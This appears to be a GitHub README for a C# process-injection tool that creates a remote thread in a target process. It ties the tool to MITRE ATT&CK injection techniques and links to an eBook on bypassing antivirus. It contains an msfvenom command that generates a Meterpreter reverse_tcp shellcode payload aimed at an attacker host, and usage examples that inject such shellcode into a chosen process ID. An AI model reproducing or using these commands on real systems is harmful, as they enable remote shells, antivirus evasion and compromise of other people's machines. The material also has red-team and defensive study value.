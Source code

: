 # NativePayload_Tinjection
Creating Remote Thread into Target Process , (Remote Thread Injection by C#)

-----------------------
Related Links for "Mitre ATT&CK" : 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_Tinjection.exe [TPID] [PAYLOAD]

    Code2: NativePayload_Tinjectionx.exe [TPID] [PAYLOAD]
    
    Code3: NativePayload_Tinjection2.exe [TPID] [PAYLOAD]
    
    Code4: NativePayload_Tinjection2nt.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_Tinjection.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_Tinjectionx.exe 2452 "FC,48,83,00,..."
    
    EXAMPLE: NativePayload_Tinjection2.exe 2452 "FC,48,83,00,..."
    
    EXAMPLE: NativePayload_Tinjection2nt.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part1)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part1.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------

NativePayload_Tinjection.cs

![](https://github.com/DamonMohammadbagher/NativePayload_Tinjection/blob/main/Picture/2.jpeg)

NativePayload_Tinjection2nt.cs

![](https://github.com/DamonMohammadbagher/NativePayload_Tinjection/blob/main/NativePayload_Tinjection2nt.png)
